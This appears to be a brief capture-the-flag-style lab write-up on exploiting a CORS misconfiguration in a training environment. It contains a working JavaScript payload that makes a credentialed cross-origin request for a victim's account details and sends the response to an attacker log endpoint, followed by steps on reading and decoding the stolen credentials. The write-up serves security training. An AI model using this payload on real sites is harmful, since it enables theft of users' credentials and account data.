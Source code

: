 1. The following script is delivered to the victim:

```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>
```

2. After supposedly executing the script on victims machine his credentials get logged:  
	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)
3. Decoding victim's credentials via Burp Decoder:  
	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
